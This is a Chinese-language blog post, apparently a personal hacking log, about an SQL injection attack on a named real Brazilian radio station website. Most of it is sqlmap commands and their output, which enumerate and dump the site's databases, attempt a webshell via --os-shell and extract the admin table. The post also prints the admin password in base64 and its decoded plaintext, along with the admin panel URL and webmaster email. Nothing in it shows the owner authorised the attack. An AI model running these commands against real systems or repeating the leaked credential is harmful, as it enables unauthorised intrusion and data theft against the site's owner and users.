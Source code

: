 ```yaml
---
title: 03-08-sql-inject
categories:
- record
tags:
- record
---
```

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-08/2.PNG)

## scan
```
80/tcp   open  http          cloudflare
443/tcp  open  ssl/https     cloudflare
8080/tcp open  http-proxy    cloudflare
8443/tcp open  ssl/https-alt cloudflare
```
确认为一个web server，有云防护，不允许直接ip访问

ping，返回值为ttl=128；网站url，大小写不敏感。

说明是windows os

## sql inject

www.radiomiriam.com.br   104.28.2.130

http://www.radiomiriam.com.br/noticia.php?id=615%27

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''615''' at line 1

1. 加单引号直接报错，两个单引号没有报错，确认了sql注入。

2. sqlmap -u "http://www.radiomiriam.com.br/noticia.php?id=615" --dbs
提示无注入漏洞，em...
以为是数据库的原因，sqlmap是不是不支持MariaDB

3. 网上搜索，sqlmap是支持MariaDB的。
用burp抓包，访问`http://www.radiomiriam.com.br/noticia.php?id=615`的数据包。

`sqlmap -r request.txt --threads 10 --level 5 --risk 3 --random-agent --batch -v 3` 
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-08/1.PNG)

4.
```
sqlmap -r request.txt --threads 10 --level 5 --risk 3 --random-agent --batch -v 3 --dbms mysql --dbs

[*] information_schema
[*] radiomir_radio

sqlmap -r request.txt --threads 10 --level 5 --risk 3 --random-agent --batch -v 3 --dbms mysql --current-db
current database:    'radiomir_radio'

sqlmap -r request.txt --threads 10 --level 5 --risk 3 --random-agent --batch -v 3 --dbms mysql -D information_schema --tables
[75 tables]

sqlmap -r request.txt --threads 10 --level 5 --risk 3 --random-agent --batch -v 3 --dbms mysql -D radiomir_radio --tables
[17 tables]

sqlmap -r id.req --threads 10 --level 5 --risk 3 --random-agent --batch --is-dba -v 3
不是最高权限用户
```
5.
```
sqlmap -r request.txt --threads 10 --level 5 --risk 3 --random-agent --batch -v 3 --dbms mysql -D radiomir_radio -T admin --column
Table: admin

[5 columns]
。。。

---
将所有数据导出
sqlmap -r id.req --threads 10 --level 5 --risk 3 --random-agent --batch --dump -v 3

/root/.sqlmap/output/www.radiomiriam.com.br/dump/radiomir_radio/noticias_imagens.csv
/root/.sqlmap/output/www.radiomiriam.com.br
```
6.
尝试写webshell，无写权限。
```
sqlmap -r request.txt --threads 10 --level 5 --risk 3 --random-agent --batch -v 3 --dbms mysql --os-shell
[WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
```
7.
sqlmap -r request.txt --threads 10 --level 5 --risk 3 --random-agent --batch -v 3 --dbms mysql -D radiomir_radio -T admin -C senha --dump
aWZvNjQ3Nw== 
解码后ifo6477

8. 找后台
邮箱：webmaster@radiomiriam.com.br
访问这个网站www.radiomiriam.com.br，直接重定向到http://miriamcaravaggio.com.br/

后台地址：www.radiomiriam.com.br/cpanel
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-08/3.PNG)

后台是通过代理连接的，没有凭据，所以无法连接。以后有经验了再看看cpanel吧...



